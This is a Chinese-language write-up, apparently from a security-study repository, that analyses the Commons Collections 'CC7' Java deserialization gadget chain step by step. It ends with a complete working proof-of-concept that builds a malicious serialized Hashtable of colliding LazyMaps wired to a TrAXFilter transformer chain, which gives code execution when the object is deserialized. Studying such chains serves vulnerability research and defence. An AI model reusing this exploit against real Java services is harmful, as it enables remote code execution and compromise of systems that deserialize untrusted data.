

- [CC7](#cc7)
  - [HashTable#readObject](#hashtablereadobject)
  - [HashTable#reconstitutionPut](#hashtablereconstitutionput)
  - [AbstractMapDecorator#equals](#abstractmapdecoratorequals)
  - [AbstractMap#equals](#abstractmapequals)
  - [POC构造](#poc构造)
# CC7
条件:  
* commons-collections <= 3.2.1

## HashTable#readObject
在`HashTable`类重写的`readObject`中,最后会调用自身的`reconstitutionPut`方法来讲读取的`Key,value`对放入`table`中.

##  HashTable#reconstitutionPut
而在其`reconstitutionPut`方法中,会对传入的Key和table中已有的Key做比较,其中会调用到table中Key的`equals`方法.
  
## AbstractMapDecorator#equals
如果`table`中的key为`LazyMap`时,则会触发其父类` AbstractMapDecorator`的`equals`方法,该方法如下  
  
其中当传入的Object和自身不相等时就会调用`this.map.euqals()`.

## AbstractMap#equals
当`this.map`为HashMap时就会进入其父类`AbstractMap`的`euqals`方法,方法如下:

其中在迭代中会调用到`m.get()`方法,而m的值即为我们传入的Map对象,当该对象为`LazyMap`时即可通过`LazyMap`的get方法进入`Transform`利用链.
## POC构造
放置两个不同的LazyMap在HashTable中,这样就会在`reconstitutionPut`中触发LazyMap的`equals`方法,最后来到`AbstractMap#equals`进入`LazyMap#get`.  

注意点和之前一样  
1. 先创建空`ChainedTransformer`防止本地触发,后通过反射设置真正的`ChainedTransformer`利用链.
2. Put触发`LazyMap`链时会写入一次元素,导致在反序列化时,在`LazyMap`的`get`方法中不会进入调用`transform`的条件分支,因为已经此时的`Map`中已经有一个相同的元素了,所以需要在`Put`触发`LazyMap`链后将写入的元素用`remove`方法移除. 

完整POC:
```java
    public static void main(String[] args) throws Exception {
        Transformer[] faketrans = new Transformer[]{};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[] {getTemplate()})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(faketrans);
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();
        Map lazyMap1 = LazyMap.decorate(innerMap1, chainedTransformer);
        lazyMap1.put("yy", 1);
        Map lazyMap2 = LazyMap.decorate(innerMap2, chainedTransformer);
        lazyMap2.put("zZ", 1);
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);
        setFieldValue(chainedTransformer,"iTransformers",transformers);
        lazyMap2.remove("yy");
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashtable);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }
```
 调用链如下:
 